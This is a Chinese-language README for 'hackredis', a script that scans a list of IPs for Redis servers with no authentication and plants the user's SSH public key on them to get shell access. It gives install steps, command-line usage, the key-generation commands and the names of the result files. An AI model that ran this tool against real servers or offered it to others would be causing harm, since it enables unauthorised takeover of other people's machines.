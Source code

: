 # hackredis
之前@Matt写了一个批量扫描redis未授权的[脚本](https://github.com/code-scan/rescan)。然后我根据[Redis未授权访问导致可远程获得服务器权限](http://www.freebuf.com/vuls/85021.html)写了一个批量获取的脚本。暂时还没写多线程，写的很烂，凑活用吧。

**安装依赖**
```
☁  ~ sudo easy_install redis
```

**使用**
```
☁  redis  python hackredis.py                                  
usage: hackredis.py [-h] [-l IPLIST] [-p PORT] [-r ID_RSAFILE] [-sp SSH_PORT]

For Example:
-----------------------------------------------------------------------------
python hackredis.py  -l ip.txt -p 6379 -r foo.txt -sp 22

optional arguments:
  -h, --help     show this help message and exit
  -l IPLIST      the hosts of target
  -p PORT        the redis default port
  -r ID_RSAFILE  the ssh id_rsa file you generate
  -sp SSH_PORT   the ssh port
```

首先需要ssh密钥:
```
☁  ~  ssh-keygen -t rsa
☁  ~  cp ~/.ssh/id_rsa.pub /tmp/foo.txt
```

之后将ip列表填入ip.txt，然后就可以跑了。
成功的将会输出到success.txt,执行成功但是ssh连接失败的会存储在unconnect.txt，操作失败的会存储在fail.txt。

测试截图：

![Alt text](./1449803881546.png)
